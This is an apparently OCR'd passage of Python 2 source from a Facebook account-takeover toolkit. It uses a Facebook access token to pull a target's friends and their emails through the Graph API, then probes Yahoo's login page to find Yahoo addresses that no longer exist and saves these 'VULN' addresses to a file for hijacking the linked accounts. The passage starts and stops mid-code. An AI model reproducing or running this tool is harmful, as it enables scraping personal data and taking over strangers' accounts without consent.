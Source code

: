 				except:
					continue
				if '"messages.ERROR_INVALID_USERNAME">' in picks:
					save.write(mail + '\n')
					print("\033[1;97m[ \033[1;92mVULN✓\033[1;97m ] \033[1;92m" +mail+" \033[1;97m=>"+fb_name)
					sucessful.append(mail)
		except KeyError:
			pass
	print 42*"\033[1;97m═"
	print '\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mDone \033[1;97m....'
	print"\033[1;91m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(sucessful))
	print"\033[1;91m[+] \033[1;92mFile saved \033[1;91m:\033[1;97m out/MailVuln.txt"
	save.close()
	raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
	menu_yahoo()

##### CLONE FROM FRIEND #####
def yahoofromfriends():
	global fb_token
	os.system('clear')
	try:
		fb_token=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('clear')
	print logo
	mpsh = []
	jcsb = 0
	idt = raw_input("\033[1;91m[+] \033[1;92mInput ID friend \033[1;91m: \033[1;97m")
	try:
		seat = requests.get("https://graph.facebook.com/"+idt+"?access_token="+fb_token)
		op = json.loads(seat.text)
		print"\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mFrom\033[1;91m :\033[1;97m "+op["name"]
	except KeyError:
		print"\033[1;91m[!] Friend not found"
		raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
		menu_yahoo()
	mkdir('\033[1;91m[✺] \033[1;92mGetting email from friend \033[1;97m...')
	friends = requests.get('https://graph.facebook.com/'+idt+'/friends?access_token='+fb_token)
	mitchy = json.loads(friends.text)
	save = open('out/FriendMailVuln.txt','w')
	mkdir('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
	print 42*"\033[1;97m═"
	for w in mitchy['data']:
		jcsb +=1
		mpsh.append(jcsb)
		id = w['id']
		fb_name = w['name']
		links = requests.get("https://graph.facebook.com/"+id+"?access_token="+fb_token)
		z = json.loads(links.text)
		try:
			mail = z['email']
			yahoo = re.compile(r'@.*')
			otw = yahoo.search(mail).group()
			if 'yahoo.com' in otw:
				br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
